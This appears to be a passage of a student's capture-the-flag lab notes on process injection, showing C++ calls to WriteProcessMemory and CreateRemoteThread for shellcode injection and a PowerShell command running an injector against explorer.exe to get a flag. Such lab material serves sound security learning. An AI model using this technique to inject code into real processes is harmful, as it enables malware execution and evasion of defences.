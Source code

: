 At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.

```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

At step four, we now have control of the process, and our malicious code is now written to memory. To execute the shellcode residing in memory, we can use `CreateRemoteThread`; threads control the execution of processes.

```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

We can compile these steps together to create a basic process injector. Use the C++ injector provided and experiment with process injection.

Shellcode injection is the most basic form of process injection; in the next task, we will look at how we can modify and adapt these steps for process hollowing.

## Practical
---

![[Pasted image 20250519112335.png]]

Let's identify the PID of the process using task manager:

![[Pasted image 20250519112809.png]]

As seen, we got PID: `3532` for `explorer.exe` running as `THM-ATTACKER`, let's use the tool to inject it:

```powershell
PS C:\Users\THM-Attacker\Desktop\Injectors> .\shellcode-injector.exe 3532 
```

![[Pasted image 20250519113012.png]]

We got our flag:
